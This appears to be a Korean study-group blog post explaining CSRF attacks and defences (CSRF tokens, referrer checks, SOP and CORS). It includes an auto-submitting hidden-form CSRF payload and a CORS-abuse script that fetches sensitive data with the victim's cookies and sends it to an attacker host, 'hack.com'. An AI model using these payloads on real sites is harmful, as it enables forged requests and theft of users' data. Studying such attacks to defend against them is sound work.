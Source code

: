 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[WEB HACKING] CSRF란?"
excerpt: "모의해킹 취업반 스터디 7기 12 ~ 13주차"

date: 2025-01-09
last_modified_at: 2025-01-18

categories: [SECURITY]
tags: [TIL, WEB, SECURITY]
---
```


# CSRF란?
## 1. 개요
**CRSF(Cross Site Request Forgery)**: 
-> 공격자가 원하는 요청을 피해자가 하게 만든다!
웹 애플리케이션 취약점 중 하나로 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 하여 특정 웹페이지를 보안에 취약하게 한다거나 수정, 삭제 등의 작업을 하게 만드는 공격방법을 의미한다. 유명 경매 사이트 옥션의 개인정보 유출 사건에 사용된 공격 방식이다.

## 취약점
모든 요청에서 발생 가능

## 공격방식

## 공격유형

## 공격 구문 예시
## post method로만 파라미터 전달이 가능할 때 csrf 공격방식
form tag를 삽입해야 한다 -> XSS로부터 무결해야 한다

```html
<iframe style="display:none" name="frame"></iframe>

<form method="POST" action="link" id="test" target="frame">
	<input type="hidden" name="email" value="test@example.com"/>
</form>

<script>
	document.getElementById('test').submit();
</script>
```

## 공격 순서
모든 요청에서 CSRF가 발생가능하다
이 요청은 위조해도 되는가
이 요청은 함부로 위조할 수 있는가

## 대응방안
### CSRF Token
CSRF 공격을 막기 위해 만든 난수값 토큰 발행
e.g. 마이페이지에 접근할 때 토큰 발행

```html
<form>
	<input type="hidden" name="csrfToken" value="random_value">
</form>
```

정보를 수정할 때 csrf 토큰을 함께 받도록 요청한다
csrf 토큰도 탈취해야 하는구나?
사용자의 form 태그가 있는 페이지에 접근할 때 csrf 토큰이 발행된다

### Referrer Check
확장성이 떨어질 수 있다
개발자가 예외처리를 했을 경우
-> `<meta name='referrer' content='no-referrer'>`

### 요청을 위조할 수 없게 하자
파라미터에 모르는 데이터를 넣게 하자 -> 인증정보
인증정보를 넣는 것!

### SOP / CORS
#### SOP, Same-Origin Policy
다른 출처의 자원에 접근하지 못하게 브라우저가 막는 것

같은 출처의 기준
- 도메인
- 스키마
- 포트

#### CORS, Cross Origin Resource Sharing
다른 출처에서도 데이터를 쓸 수 있게 함

ACAO Header, Access Controll Allow Origin
-> 응답에 들어감

ACAO Header에 요청이 존재하냐
자원을 허용할 도메인을 등록해두는 것이다

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://target.com/seneitive-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'http://hack.com/log?key='+this.responseText;
    };
</script>
```

브라우저에 로드는 되는데 자바스크립트로 접근이 되냐 안되냐는 cors에 등록된 것만 가능하다

-> White List로 개발자가 하나하나 추가해줘야 함
하지만 개발자가 귀찮으시잖아~
`ACAO: *` -> SOP가 없는 것과 마찬가지다
다른 도메인에서 쿠키를 포함해서 요청한 것에 대한 응답은 * 못 씀
ACAC Header
Origin에 있는 데이터를 ACAO 헤더에 그대로 옮겨주자

CSRF
GET 방식이면 프리패스
POST -> XSS, form tag
CORS 정책이 잘 적용되어 있지 않다 -> 공격자 서버 만들어서 공격

# 참고
* [CSRF 공격과 방어 기법](https://velog.io/@gwanuuoo/CSRF-%EA%B3%B5%EA%B2%A9%EA%B3%BC-%EB%B0%A9%EC%96%B4-%EA%B8%B0%EB%B2%95)
* [Spring Security_CSRF Token의 개념과 사용 방법](https://codevang.tistory.com/282)
* [CSRF(Cross Site Request Forgery)란?](https://tibetsandfox.tistory.com/11)
* [CSRF(Cross Site Request Forgery) 공격, 사례, 방어 방법](https://stir.tistory.com/265)
* [[아이프레임(iframe)이란?](https://okayoon.tistory.com/entry/%EC%95%84%EC%9D%B4%ED%94%84%EB%A0%88%EC%9E%84iframe)](https://okayoon.tistory.com/entry/%EC%95%84%EC%9D%B4%ED%94%84%EB%A0%88%EC%9E%84iframe)
* [나무위키: XSS](https://namu.wiki/w/XSS)
* [웹 취약점 공격 방법인 XSS, CSRF에 대하여 간단하게 알아보기](https://falsy.me/%EC%9B%B9-%EC%B7%A8%EC%95%BD%EC%A0%90-%EA%B3%B5%EA%B2%A9-%EB%B0%A9%EB%B2%95%EC%9D%B8-xss-csrf%EC%97%90-%EB%8C%80%ED%95%98%EC%97%AC-%EA%B0%84%EB%8B%A8%ED%95%98%EA%B2%8C-%EC%95%8C%EC%95%84%EB%B3%B4/)
* [XSS JavaScript 활용 (DOM 객체) 11-1](https://blog.naver.com/leem8419/223493830500)
* 